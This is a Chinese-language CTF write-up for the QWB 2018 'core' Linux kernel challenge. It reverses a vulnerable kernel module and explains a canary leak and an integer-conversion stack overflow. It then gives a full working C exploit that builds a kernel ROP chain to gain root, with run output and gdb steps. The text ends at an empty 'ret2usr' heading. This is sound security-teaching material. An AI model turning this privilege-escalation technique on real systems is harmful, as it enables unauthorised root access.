

# qwb2018_core

一道Linux内核ROP攻击的题目；

## 信息收集

题目给了四个文件：

1. boot.sh: 一个用于启动 kernel 的 shell 的脚本，多用 qemu，保护措施与 qemu 不同的启动参数有关；
2. bzImage: kernel binary；
3. rootfs.cpio: 文件系统映像；
4. vmlinux：静态编译，未经过压缩的 kernel 文件，可以从中找到gadget，通过ropper来将gadget保存备用；

[vmlinux & bzImage 的关系]: https://unix.stackexchange.com/questions/5518/what-is-the-difference-between-the-following-kernel-makefile-terms-vmlinux-vml	"vmlinux &amp; bzImage 的关系"

### gadget

```
ropper --file ./vmlinux --nocolor > gadget
```

指令执行后，将生成的无颜色标记的gadget记录在gadget文件中；

如果没有给出vmlinux，可以用extract-vmlinux从bzImage中提取；

[ extract-vmlinux ]: https://github.com/torvalds/linux/blob/master/scripts/extract-vmlinux "extract-vmlinux"

### 启动选项

查看start.sh启动选项的设置；

```bash
$ bat start.sh 
───────┬──────────────────────────────────────────────────────────────────────────────────────
       │ File: start.sh
───────┼──────────────────────────────────────────────────────────────────────────────────────
   1   │ qemu-system-x86_64 \
   2   │ -m 64M \
   3   │ -kernel ./bzImage \
   4   │ -initrd  ./core.cpio \
   5   │ -append "root=/dev/ram rw console=ttyS0 oops=panic panic=1 quiet kaslr" \
   6   │ -s  \
   7   │ -netdev user,id=t0, -device e1000,netdev=t0,id=nic0 \
   8   │ -nographic  \
───────┴─────────────────────────
```

启动了kaslr；

### init

解压文件系统映像，看看init文件中初始化的内容；

```bash
$ bat init
───────┬──────────────────────────────────────────────────────────────────────────────────────
       │ File: init
───────┼──────────────────────────────────────────────────────────────────────────────────────
   1   │ #!/bin/sh
   2   │ mount -t proc proc /proc
   3   │ mount -t sysfs sysfs /sys
   4   │ mount -t devtmpfs none /dev
   5   │ /sbin/mdev -s
   6   │ mkdir -p /dev/pts
   7   │ mount -vt devpts -o gid=4,mode=620 none /dev/pts
   8   │ chmod 666 /dev/ptmx
   9   │ cat /proc/kallsyms > /tmp/kallsyms
  10   │ echo 1 > /proc/sys/kernel/kptr_restrict
  11   │ echo 1 > /proc/sys/kernel/dmesg_restrict
  12   │ ifconfig eth0 up
  13   │ udhcpc -i eth0
  14   │ ifconfig eth0 10.0.2.15 netmask 255.255.255.0
  15   │ route add default gw 10.0.2.2 
  16   │ insmod /core.ko 	
  17   │ 
  18   │ poweroff -d 120 -f &
  19   │ setsid /bin/cttyhack setuidgid 1000 /bin/sh
  20   │ echo 'sh end!\n'
  21   │ umount /proc
  22   │ umount /sys
  23   │ 
  24   │ poweroff -d 0  -f
───────┴─────────────────────────────────────────────────────────────
```

- 第9行，将`kallsyms`的内容copy到了`tmp`目录下，这也就意味着可以获取内核函数的地址，其中不乏`commit_cred`这类函数；
- 第10行和第11行，分别设置了`kptr_restrict`和`dmesg_restrict`为`1`，这意味着只有root用户才能从`kallsyms`中打印出有效的内核函数地址，并且不能使用`dmesg`来查看kernel的信息；
- 第24行设置了关机任务，删掉；

由于`kallsyms`在`tmp`目录下有副本，所以即使对打印做了限制，仍然可以获取到关键地址信息；

在解压出来的文件中还发现了一个`gen_cpio.sh`文件；

```bash
$ bat gen_cpio.sh 
───────┬──────────────────────────────────────────────────────────────────────────────────────
       │ File: gen_cpio.sh
───────┼──────────────────────────────────────────────────────────────────────────────────────
   1   │ find . -print0 \
   2   │ | cpio --null -ov --format=newc \
   3   │ | gzip -9 > $1
───────┴──────────────────────────────────────────────────────────────────────────────────────
```

这是一个打包脚本；

修改好init后重新打包即可；

```bash
$ vim init			# 删除poweroff任务
$ rm core.cpio		# 删除解压前的压缩文件映像
$ ./gen_cpio.sh core.cpio	# 重新打包生成
```

### 运行kernel

将新生成的，未含有`poweroff`任务的文件系统映像放回根目录，尝试运行kernel；

```
$ mv core.cpio ..
$ cd ..
$ ./start.sh
```

发现内核恐慌，提示超出了内存，无限重启了；

```
[    0.025074] Spectre V2 : Spectre mitigation: LFENCE not serializing, switching to generic retpoline
[    0.848169] Kernel panic - not syncing: Out of memory and no killable processes...

```

 看一下启动选项，将`-m 64M`改为`-m 128M`即可，看来是因为64M太小了；

成功运行后显示如下信息：

```
[    0.018451] Spectre V2 : Spectre mitigation: LFENCE not serializing, switching to generic retpoline
udhcpc: started, v1.26.2
udhcpc: sending discover
udhcpc: sending select for 10.0.2.15
udhcpc: lease of 10.0.2.15 obtained, lease time 86400
/ $ lsmod
core 16384 0 - Live 0x0000000000000000 (O)

```

查看记载的模块`core`；

### core.ko

checksec一下；

```
$ checksec core.ko 
[*] '/home/klose/ctf/pwn/kernel/wp/qwb/2018/qwb2018_core/give_to_player/core/core.ko'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x0)
```

放到ida分析；

#### init_module

```c
__int64 init_module()
{
  core_proc = proc_create("core", 438LL, 0LL, &core_fops);
  printk(&unk_2DE);
  return 0LL;
}
```

该函数通过`proc_create()`注册了`/proc/core`；

#### exit_core

```c
__int64 exit_core()
{
  __int64 result; // rax

  if ( core_proc )
    result = remove_proc_entry("core");
  return result;
}
```

该函数通过`remove_proc_entry`删除`/proc/core`，删除的前提条件是注册成功；

#### core_ioctl

```c
__int64 __fastcall core_ioctl(__int64 fd, int command, __int64 user_space_addr_offset)
{
  __int64 v3; // rbx

  v3 = user_space_addr_offset;
  switch ( command )
  {
    case 0x6677889B:
      core_read(user_space_addr_offset);
      break;
    case 0x6677889C:
      printk(&unk_2CD);
      off = v3;
      break;
    case 0x6677889A:
      printk(&unk_2B3);
      core_copy_func(v3);
      break;
  }
  return 0LL;
}
```

该函数分别调用了`core_read`、`core_copy_func`，并对全局变量off的赋值；

#### core_read

```c
unsigned __int64 __fastcall core_read(__int64 user_space_addr_offset)
{
  __int64 to; // rbx
  __int64 *v2; // rdi
  signed __int64 i; // rcx
  unsigned __int64 result; // rax
  __int64 v5; // [rsp+0h] [rbp-50h]
  unsigned __int64 v6; // [rsp+40h] [rbp-10h]

  to = user_space_addr_offset;
  v6 = __readgsqword(0x28u);
  printk(&unk_25B);
  printk(&unk_275);
  v2 = &v5;
  for ( i = 16LL; i; --i )
  {
    *(_DWORD *)v2 = 0;
    v2 = (__int64 *)((char *)v2 + 4);
  }
  strcpy((char *)&v5, "Welcome to the QWB CTF challenge.\n");
  result = copy_to_user(to, (char *)&v5 + off, 64LL);
  if ( !result )
    return __readgsqword(0x28u) ^ v6;
  __asm { swapgs }
  return result;
}
```

可以看到在`result = copy_to_user(to, (char *)&v5 + off, 64LL);`中，将`&v5+off`开始的64bytes拷贝到用户空间，而这个用户空间是可以由`core_read(user_space_addr_offset)`传入的参数（偏移）控制的，也是`core_ioctl(__int64 a1, int command, __int64 user_space_addr_offset)`可控参数；

因此通过这个指针的偏移，可以用来leak出kernel canary和一些有用的kernel info；

#### core_copy_func

```c
signed __int64 __fastcall core_copy_func(signed __int64 a1)
{
  signed __int64 result; // rax
  __int64 v2; // [rsp+0h] [rbp-50h]
  unsigned __int64 v3; // [rsp+40h] [rbp-10h]

  v3 = __readgsqword(0x28u);
  printk(&unk_215);
  if ( a1 > 63 )
  {
    printk(&unk_2A1);
    result = 0xFFFFFFFFLL;
  }
  else
  {
    result = 0LL;
    qmemcpy(&v2, &name, (unsigned __int16)a1);
  }
  return result;
}
```

如果我们输入的偏移`user_space_addr_offset`大于63.将会返回`0xffffffff`，否则返回`0`，并且将从`name`这个全局变量中拷贝`user_space_addr_offset`长度的内容到局部变量v2中；

此时a1是`unsigned __int16`类型的，但是在`core_ioctl`中传参时，传入的是`__int64`类型的数据，因此这里会存在一个整数溢出导致的栈溢出漏洞；

如何理解呢？

我们传入的a1是64位的有符号整数，在进行`if ( a1 > 63 )`的条件判断时，如果输入的值过小，则不能达到`qmemcpy`后能够溢出的效果，因为这里的v2的缓冲区大小是0x50bytes。因此我们要设法去输入一个值，这个值能够通过`if ( a1 > 63 )`的条件判断，并且在被强制转换为`unsigned __int16`类型时，能够变成大于0x50的数值（当然是大多一点比较好）；

首先是条件判断的绕过：由于转换成unsigned int类型，立马就想到传一个负数进去，有符号的整数负数肯定比63小，因此能够顺利绕过条件判断；

其次是如何能够在转换为16位数据后，使得数值仍能作为有效长度来达到栈溢出的效果：

直接查看这一块的汇编代码：



```nasm
movzx   ecx, bx						; movzx指令从小寄存器拷贝到大寄存器，即low 16 bit -> 32 bit, 高位填充0，
mov     rsi, offset name			 ; 设置源地址
mov     rdi, rsp					; rsp中保存着v2的地址，设置目的地址
xor     eax, eax
									; ecx为长度参数，rsi为源地址，rdi为目的地址
rep movsb							; 从rsi中拷贝ecx长度的内容到rdi
jmp     short loc_144
```

我们现在锁定了长度参数来源于寄存器rbx，再往前看rbx从哪里获得的值；

在函数开始调用后，有：

```nasm
push    rbx							; rbx 入栈
mov     rbx, rdi					; rdi -> rbx
```

可以看到，rdi获取了长度后，将长度参数送到了rbx中，通过传递bx来实现由64bit到16bit的过程；

假设输入a1为`0xffffffffffff0000`，参数变化的流程为：

```
a1 = 0x ffff ffff ffff 0000
rdi = 0x ffff ffff ffff 0000
rbx = 0x ffff ffff ffff 0000
bx = 0x0000 = 0x0
```

因此，只要实现在低四位设置好最终想要copy的长度，而整个数值为负数，即可得到栈溢出的效果；

所以我们还需要知道负数的范围：

```
32位下int范围：
正数：00 00 00 00 ~ 7f ff ff ff
负数：80 00 00 00 ~ ff ff ff ff (ff ff ff ff是-1)

64位下int范围：
正数：00 00 00 00 00 00 00 00 ~ 7f ff ff ff ff ff ff ff
负数：80 00 00 00 00 00 00 00 ~ ff ff ff ff ff ff ff ff (ff ff ff ff ff ff ff ff是-1)
```

因此，只需要设置为`0xffffffffffff1000`就可以从name中copy到1000字节的内容到v2，达到溢出v2缓冲区的效果。整个值当然有很多了；

接着看其他函数；

#### core_write

```c
signed __int64 __fastcall core_write(__int64 a1, __int64 a2, unsigned __int64 a3)
{
  unsigned __int64 v3; // rbx

  v3 = a3;
  printk(&unk_215, a2);
  if ( v3 <= 0x800 && !copy_from_user(&name, a2, v3) )
    return (unsigned int)v3;
  printk(&unk_230, a2);
  return 4294967282LL;
}
```

该函数支持对name参数进行写操作，条件是写入的长度小于等于0x800。这样，通过该函数和上述的`core_copy_func`函数就可以时间ropchain了；

### 准备

#### address of commit_creds()&gadgets

定位commit_creds，让它在ropchain压轴登场；

在/tmp/kallsyms中保存了commit_creds()的地址，可以直接拿来用，另外gadgets也在里面；

#### return to user

返回用户态需要设置栈帧，利用指令`swapgs; iretq`即可；

栈帧布置如下（学点内联汇编没那么难）：

```c
// intel flavor assembly
size_t user_cs, user_ss, user_rflags, user_sp;
void save_status()
{
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
    puts("[*]status has been saved.");
}

// at&t flavor assembly
void save_stats() {
asm(
    "movq %%cs, %0\n"
    "movq %%ss, %1\n"
    "movq %%rsp, %3\n"
    "pushfq\n"
    "popq %2\n"
    :"=r"(user_cs), "=r"(user_ss), "=r"(user_eflags),"=r"(user_sp)
    :
    : "memory"
);
}
```


## 漏洞利用

### rop

经过如上的分析，可以得出以下的思路：

1. 通过 ioctl 设置 off，然后通过 core_read() leak 出 canary；
2. 通过 core_write() 写 如ropchain到name ；
3. 通过 core_copy_func() 设置合理的长度和 canary ，将ropchain打入v2变量缓冲区，溢出后进行 rop；
4. 通过 rop 执行 `commit_creds(prepare_kernel_cred(0))`
5. 返回用户态，通过 system("/bin/sh") 等拿shell；

在`start.sh`中，已经开启了`-s`调试；

```bash
# start.sh
$ bat start.sh 
───────┬──────────────────────────────────────────────────────────────────────────────────────
       │ File: start.sh
───────┼──────────────────────────────────────────────────────────────────────────────────────
   1   │ qemu-system-x86_64 \
   2   │ -m 128M \
   3   │ -kernel ./bzImage \
   4   │ -initrd  ./core.cpio \
   5   │ -append "root=/dev/ram rw console=ttyS0 oops=panic panic=1 quiet kaslr" \
   6   │ -s  \
   7   │ -netdev user,id=t0, -device e1000,netdev=t0,id=nic0 \
   8   │ -nographic  \
───────┴──────────────────────────────────────────────────────────────────────────────────────
```

.text 段的地址可以通过 `/sys/modules/core/section/.text` 来查看，查看需要 root 权限，因此为了方便调试，改一下 `init`；

```bash
───────┬──────────────────────────────────────────────────────────────────────────────────────
       │ File: init
───────┼──────────────────────────────────────────────────────────────────────────────────────
   1   │ #!/bin/sh
   2   │ mount -t proc proc /proc
   3   │ mount -t sysfs sysfs /sys
   4   │ mount -t devtmpfs none /dev
   5   │ /sbin/mdev -s
   6   │ mkdir -p /dev/pts
   7   │ mount -vt devpts -o gid=4,mode=620 none /dev/pts
   8   │ chmod 666 /dev/ptmx
   9   │ cat /proc/kallsyms > /tmp/kallsyms
  10   │ echo 1 > /proc/sys/kernel/kptr_restrict
  11   │ echo 1 > /proc/sys/kernel/dmesg_restrict
  12   │ ifconfig eth0 up
  13   │ udhcpc -i eth0
  14   │ ifconfig eth0 10.0.2.15 netmask 255.255.255.0
  15   │ route add default gw 10.0.2.2 
  16   │ insmod /core.ko
  17   │ 
  18   │ setsid /bin/cttyhack setuidgid 0 /bin/sh
  19   │ # setsid /bin/cttyhack setuidgid 1000 /bin/sh
  20   │ echo 'sh end!\n'
  21   │ umount /proc
  22   │ umount /sys
───────┴──────────────────────────────────────────────────────────────────────────────────────
```

详情参考`kernel debug`文章，最终写好exp后，要**记得改回来**；

#### exp


```c
// gcc -static -masm=intel -g exploit.c -o exploit
#include <string.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/ioctl.h>
#include <sys/types.h>
#include <sys/stat.h>

void spawn_shell(){
    if(!getuid()){
        system("/bin/sh");
    }
    else{
        puts("[-] spawn shell error!");
    }
    exit(0);
}

size_t commit_creds = 0, prepare_kernel_cred = 0;

/*
    objdump -h vmlinux | grep Idx -n3 | bat
───────┬──────────────────────────────────────────────────────────────────────────────────────
       │ STDIN
───────┼──────────────────────────────────────────────────────────────────────────────────────
   1   │ vmlinux:     file format elf64-x86-64
   2   │ 
   3   │ Sections:
   4   │ Idx Name          Size      VMA               LMA               File off  Algn
   5   │   0 .text         00c0325d  ffffffff81000000  0000000001000000  00200000  2**12
   6   │                   CONTENTS, ALLOC, LOAD, RELOC, READONLY, CODE
   7   │   1 .notes        00000024  ffffffff81c03260  0000000001c03260  00e03260  2**2
───────┴──────────────────────────────────────────────────────────────────────────────────────
*/
size_t raw_vmlinux_base = 0xffffffff81000000;

size_t vmlinux_base = 0;
size_t find_symbols(){
    FILE* kallsyms_fd = fopen("/tmp/kallsyms", "r");
    
    if(kallsyms_fd < 0){
        puts("[-] open kallsyms failed.");
        eixt(0);
    }

    char buf[0x30] = {0};
    while(fgets(buf, 0x30, kallsyms_fd)){
        if(commit_creds & prepare_kernel_cred){
            puts("[+] already exist.");
            return 0;
        }
        if(strstr(buf, "commit_creds") && !commit_creds){
            char hex[20] = {0};
            strncpy(hex, buf, 16);
            sscanf(hex, "%llx", &commit_creds);
            printf("[+] commit_creds addr => %p\n", commit_creds);
            /*
                $ python
                Python 2.7.12 (default, Mar  1 2021, 11:38:31) 
                [GCC 5.4.0 20160609] on linux2
                Type "help", "copyright", "credits" or "license" for more information.
                >>> from pwn import *
                >>> vmlinux = ELF("./vmlinux")
                [*] '/home/klose/ctf/pwn/kernel/wp/qwb/2018/qwb2018_core/give_to_player/vmlinux'
                    Arch:     amd64-64-little
                    RELRO:    No RELRO
                    Stack:    Canary found
                    NX:       NX disabled
                    PIE:      No PIE (0xffffffff81000000)
                    RWX:      Has RWX segments
                >>> hex(vmlinux.sym['commit_creds'] - 0xffffffff81000000)
                '0x9c8e0'
                >>> 
            */
           vmlinux_base = commit_creds - 0x9c8e0;
           printf("[+] vmlinux_base addr => %p\n", vmlinux_base);
        }

        if(strstr(buf, "prepare_kernel_cred") && !prepare_kernel_cred){
            char hex[20] = {0};
            strncpy(hex, buf, 16);
            sscanf(hex, "%llx", &prepare_kernel_cred);
            printf("[+] prepare_kernel_cred addr => %p\n", prepare_kernel_cred);
            /*
                same method
                >>> hex(vmlinux.sym['prepare_kernel_cred'] - 0xffffffff81000000)
                '0x9cce0'
            */
            vmlinux_base = prepare_kernel_cred - 0x9cce0;
            printf("[+] vmlinux_base addr => %p\n", vmlinux_base);
        }
    }
    if(!(commit_creds & prepare_kernel_cred)){
        puts("[-] Didn't get info, error!");
        exit(0);
    }
}

size_t user_cs, user_ss, user_rflags, user_sp;

void save_status(){
    __asm__("mov user_cs, cs;"
            "mov user_ss, ss;"
            "mov user_sp, rsp;"
            "pushf;"
            "pop user_rflags;"
            );
    puts("[+] status has been saved.");
}

void set_off(int fd, long long idx){
    printf("[*] set off to %ld\n", idx);
    ioctl(fd, 0x6677889c, idx);
}

void core_read(int fd, char *buf){
    puts("[*] read to buf.");
    ioctl(fd, 0x6677889b, buf);
}

void core_copy_func(int fd, long long size){
    printf("[*] copy from user with size: %ld\n", size);
    ioctl(fd, 0x6677889a, size);
}

int main(){
    save_status();
    int fd = open("/proc/core", 2);
    if(fd < 0){
        puts("[-] open /proc/core failed.");
        exit(0);
    }
    find_symbols();

    set_off(fd, 0x40);
    char buf[0x40] = {0};
    core_read(fd, buf);
    size_t canary = ((size_t *)buf)[0];
    printf("[+] canary => %p\n", canary);
    // int i;
    // for(i = 0; i < 10; i++)
    //     rop[i] = canary;
    // offset = vmlinux_base - raw_vmlinux_base;
    // ropchain(i, offset);
    size_t rop[0x1000] = {0};
    ssize_t offset = vmlinux_base - raw_vmlinux_base;
    int i;
    for(i = 0; i < 10; i++)
    {
        rop[i] = canary;
    }
    size_t pop_rdi_ret = 0xffffffff81000b2f;
    size_t pop_rdx_ret = 0xffffffff810a0f49;
    size_t pop_rcx_ret = 0xffffffff81021e53;
    size_t mov_rdi_rax_call_rdx = 0xffffffff8101aa6a;
    size_t swapgs_popfq_ret = 0xffffffff81a012da;
    size_t iretq_ret = 0xffffffff81050ac2;
    /*
        cat g1 | grep -e "pop rdi; ret;"
        cat g1 | grep -e "pop rdx; ret;"
        cat g1 | grep -e "pop rcx; ret;"
        cat g1 | grep -e "mov rdi, rax; call rdx;"
        cat g1 | grep -e "swapgs; popfq; ret;"
        cat g1 | grep -e "iretq; ret;"
    */
    // prepare_kernel_cred(0)
    rop[i++] = pop_rdi_ret + offset;
    rop[i++] = 0;
    rop[i++] = prepare_kernel_cred;

    // commit_creds
    rop[i++] = pop_rdx_ret + offset;
    rop[i++] = pop_rcx_ret + offset;
    rop[i++] = mov_rdi_rax_call_rdx + offset;
    rop[i++] = commit_creds;

    // swapgs -> change mode
    rop[i++] = swapgs_popfq_ret + offset;
    rop[i++] = 0;
    rop[i++] = iretq_ret + offset;
    
    // command
    rop[i++] = (size_t)spawn_shell;

    // stack frame
    rop[i++] = user_cs;
    rop[i++] = user_rflags;
    rop[i++] = user_sp;
    rop[i++] = user_ss;
    write(fd, rop, 0x800);
    core_copy_func(fd, 0xffffffffffff0100);

    return 0;
}
```

按规则编译后，将可执行文件放到`core/tmp/`中，打包后将文件系统映像放到主目录；

```
gcc -static -masm=intel -g exploit.c -o exploit
mv exploit core/tmp/
cd core/
./gen_cpio.sh core.cpio
mv core.cpio ..

```

启动脚本`start.sh`，执行弹shell；

```
$ ./start.sh 
warning: TCG doesn't support requested feature: CPUID.01H:ECX.vmx [bit 5]
[    0.020165] Spectre V2 : Spectre mitigation: LFENCE not serializing, switching to generic retpoline
udhcpc: started, v1.26.2
udhcpc: sending discover
udhcpc: sending select for 10.0.2.15
udhcpc: lease of 10.0.2.15 obtained, lease time 86400
/ $ id
uid=1000(chal) gid=1000(chal) groups=1000(chal)
/ $ ./tmp/exploit 
[+] status has been saved.
[+] commit_creds addr => 0xffffffffa7a9c8e0
[+] vmlinux_base addr => 0xffffffffa7a00000
[+] prepare_kernel_cred addr => 0xffffffffa7a9cce0
[+] vmlinux_base addr => 0xffffffffa7a00000
[+] already exist.
[*] set off to 64
[*] read to buf.
[+] canary => 0x16a92f79086e900
[*] copy from user with size: -65280
/ # id
uid=0(root) gid=0(root)
/ # 

```

#### 调试

在root下获取.text基地址；

```
# init
setsid /bin/cttyhack setuidgid 0 /bin/sh

# qemu
/ # cat proc/modules 
core 16384 0 - Live 0xffffffffc00ce000 (O)
```

gdb设置

```
$ gdb ./vmlinux -q

gef➤  add-symbol-file ./core/core.ko 0xffffffffc00ce000
add symbol table from file "./core/core.ko" at
	.text_addr = 0xffffffffc00ce000
Reading symbols from ./core/core.ko...(no debugging symbols found)...done.
gef➤  b strncpy
Breakpoint 1 at 0xffffffff81860380
gef➤  b core_read
Breakpoint 2 at 0xffffffffc00ce063
gef➤  b core_ioctl
Breakpoint 3 at 0xffffffffc00ce15f
gef➤  b core_write
Breakpoint 4 at 0xffffffffc00ce011
gef➤  b core_copy_func
Breakpoint 5 at 0xffffffffc00ce0f6
gef➤  b spawn_shell
Function "spawn_shell" not defined.
gef➤  b find_symbols
Function "find_symbols" not defined.
gef➤  b main
Function "main" not defined.
gef➤  b *0xffffffffc00ce000
Breakpoint 6 at 0xffffffffc00ce000

gef➤  target remote localhost:1234

```

`c`继续；

```
gef➤  c
Continuing.
```

在qemu中执行exp；


### ret2usr

